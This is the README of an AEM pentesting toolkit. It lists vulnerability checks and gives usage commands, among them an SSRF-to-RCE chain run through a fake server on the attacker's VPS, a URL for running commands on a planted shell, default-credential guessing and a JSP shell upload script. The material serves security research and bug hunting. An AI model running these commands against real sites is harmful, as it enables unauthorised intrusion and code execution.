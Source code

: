 # Toolset for AEM hacking

Tools to identify vulnerable Adobe Experience Manager (AEM) webapps. <a href="https://www.adobe.com/marketing/experience-manager.html">AEM is an enterprise-grade CMS</a>.

I've built these tools to automate bughunting and pentesting of AEM webapps. I've included checks for previously known vulnerabilities and misconfigurations, as well as for new ones, discovered by me in 2018/2019. **All discovered vulnerabilities were responsibly reported to Adobe PSIRT**.
 
You can find more details about vulnerabilities and techniques in presentations, I've prepared for <a href="https://speakerdeck.com/0ang3el/hunting-for-security-bugs-in-aem-webapps">Hacktivity conference</a> and <a href="https://www.youtube.com/watch?v=EQNBQCQMouk">LevelUp 0x03</a>.

AEM webapps are widespread and rarely configured securely or kept up to date. Bughunter, you have good chances to find security bugs, enjoy the tools!


Mikhail Egorov (<a href="https://twitter.com/0ang3el">@0ang3el</a>)

## Scripts

* `aem_hacker.py` - main script to scan AEM webapp for vulnerabilities.
* `aem_discoverer.py` - script to discover AEM webapps from list of URLs.
* `aem_ssrf2rce.py`, `aem_server.py`, `response.bin` - scripts to get RCE from SSRF.
* `aem-rce-sling-script.sh` - script to get RCE by uploading JSP shell to /apps JCR node.

## aem_hacker.py
**Important:** You need a VPS to detect SSRF vulnerabilities!

Tool tries to bypass AEM dispatcher. 

Following checks are currently implemented:
* `Exposed DefaultGetServlet` - checks if JCR nodes, that might contain sensitive information and secrets, are exposed via DefaultGetServlet.
* `Exposed QueryBulderJsonServlet and QueryBuilderFeedServlet` - if those servlets are exposed it might be possible to access various sensitive information and secrets. 
* `Exposed GQLServlet` - GQLServlet is similar to QueryBuilderFeedServlet.
* `Ability to create new JCR nodes` - checks if it's possible to create new JCR node.
* `Exposed POSTServlet` - POSTServlet allows to create/modify/delete content in JCR. Depending on your access level, it's possible to get stored XSS or RCE. 
* `Exposed LoginStatusServlet, CurrentUserServlet and UserInfoServlet` - if those servlets are exposed allows it might be possible to bruteforce credentials.
* `Users with default password` - checks for admin:admin, author:author, etc.
* `Exposed Felix Console` - exposed Felix Console might lead to RCE by uploading backdoor OSGI bundle.
* `Enabled WCMDebugFilter` - vulnerable to CVE-2016-7882 WCMDebugFilter might lead to reflected XSS.
* `Exposed WCMSuggestionsServlet` - exposed WCMSuggestionsServlet might lead to reflected XSS.
* `Exposed CRXDE and CRX` - checks for exposure of CRXDE and CRX.
* `Exposed Reports` - checks for exposure of reports.
* `SSRF SalesforceSecretServlet` - checks for SSRF via SalesforceSecretServlet (CVE-2018-5006). SSRF might allow to ex-filtrate secrets or perform XSS.
* `SSRF ReportingServicesServlet` - checks for SSRF via ReportingServicesServlet (CVE-2018-12809). SSRF might allow to ex-filtrate secrets or perform XSS.
* `SSRF SitecatalystServlet` - checks for SSRF via SitecatalystServlet. SSRF might allow to get RCE with the help of aem_ssrf2rce.py, when specific AEM version and appserver is used.
* `SSRF AutoprovisioningServlet` - checks for SSRF via AutoprovisioningServlet. SSRF might allow to get RCE with the help of aem_ssrf2rce.py, when specific AEM version and appserver is used.
* `SSRF Opensocial Proxy` - checks for SSRF via Opensocial (Shindig) proxy. SSRF might allow to ex-filtrate secrets or perform XSS.
* `SSRF Opensocial MakeRequest` - check for SSRF via Opensocial (Shindig) makeRequest. SSRF might allow to ex-filtrate secrets or perform XSS. You can use parameters `httpMethod`, `postData`, `headers`, `contentType` with `makeRequest`.
* `SWF XSSes` - checks for XSSes via SWF.
* `Deser ExternalJobServlet` - checks for vulnerable ExternalJobServlet.
* `Exposed Webdav` - checks for access to JCR via WebDav protocol. Exposed WebDav might lead to XXE (CVE-2015-1833) or stored XSS.
* `Exposed Groovy Console` - exposed Groovy console leads to RCE. 
* `Exposed ACS AEM Tools` - exposed ACS AEM Tools leads to RCE.
* `Exposed GuideInternalSubmitServlet` - exposed GuideInternalSubmitServlet vulnerable to XXE (CVE-2019-8086).
* `Exposed MergeMetadataServlet` - might be vulnerable to reflected XSS.
* `Exposed SetPreferences page` - might be vulnerable to reflected XSS.

#### Help
```
usage: aem_hacker.py [-h] [-u URL] [--proxy PROXY] [--debug] [--host HOST]
                     [--port PORT] [--workers WORKERS]
                     [-H [HEADER [HEADER ...]]] [--handler HANDLER]
                     [--listhandlers]

AEM hacker by @0ang3el, see the slides -
https://speakerdeck.com/0ang3el/hunting-for-security-bugs-in-aem-webapps

optional arguments:
  -h, --help            show this help message and exit
  -u URL, --url URL     url to scan
  --proxy PROXY         http and https proxy
  --debug               debug output
  --host HOST           hostname or IP to use for back connections during SSRF
                        detection
  --port PORT           opens port for SSRF detection
  --workers WORKERS     number of parallel workers
  -H [HEADER [HEADER ...]], --header [HEADER [HEADER ...]]
                        extra http headers to attach
  --handler HANDLER     run specific handlers, if omitted run all handlers
  --listhandlers        list available handlers
```

#### Usage
```
python3 aem_hacker.py -u https://aem.webapp --host your_vps_hostname_ip
```

or

```
python3 aem_hacker.py -u https://aem.webapp --host your_vps_hostname_ip --handler groovy_console --handler salesforcesecret_servlet

```

## aem_discoverer.py
Script allows to scan urls and find AEM webapps among them.

Tool tries to bypass AEM dispatcher.

#### Help
```
python3 aem_discoverer.py -h
usage: aem_discoverer.py [-h] [--file FILE] [--proxy PROXY] [--debug]
                         [--workers WORKERS]

AEM discoverer by @0ang3el, see the slides -
https://speakerdeck.com/0ang3el/hunting-for-security-bugs-in-aem-webapps

optional arguments:
  -h, --help         show this help message and exit
  --file FILE        file with urls
  --proxy PROXY      http and https proxy
  --debug            debug output
  --workers WORKERS  number of parallel workers
```

#### Usage
```
python3 aem_discoverer.py --file urls.txt --workers 150
```

## aem_ssrf2rce.py, aem_server.py, response.bin
Helps to exploit SSRF in `SitecatalystServlet` and `AutoprovisioningServlet` as RCE. It should work on AEM before AEM-6.2-SP1-CFP7 running on Jetty (default installation).

#### Help

```
python3 aem_ssrf2rce.py -h
usage: aem_ssrf2rce.py [-h] [--url URL] [--fakeaem FAKEAEM] [--proxy PROXY]

optional arguments:
  -h, --help         show this help message and exit
  --url URL          URL for SitecatalystServlet or AutoprovisioningServlet,
                     including path, without query part
  --fakeaem FAKEAEM  hostname/ip of fake AEM server
  --proxy PROXY      http and https proxy
```

#### Usage
Place `aem_server.py` and `response.bin` on your VPS. Run `aem_server.py` script.

```
python3 aem_server.py
starting fake AEM server...
running server...
```

Run `aem_ssrf2rce.py` script.

```
python3 aem_ssrf2rce.py --url https://aem.webapp/libs/cq/analytics/components/sitecatalystpage/segments.json.servlet --fakeaem your_vps_hostname_ip
```

If RCE is possible, you should see incoming connection to your fake AEM server. After replication, you can access your shell from `https://aem.webapp/rcenode.html?Vgu9BKV9zdvJNByNh9NB=ls`.


## aem-rce-sling-script.sh
Script is handy when Felix Console is not available, but you have permissions to create new nodes under `/apps` JCR node.

#### Usage

```
./aem-rce-sling-script.sh https://aem.webapp username password
```
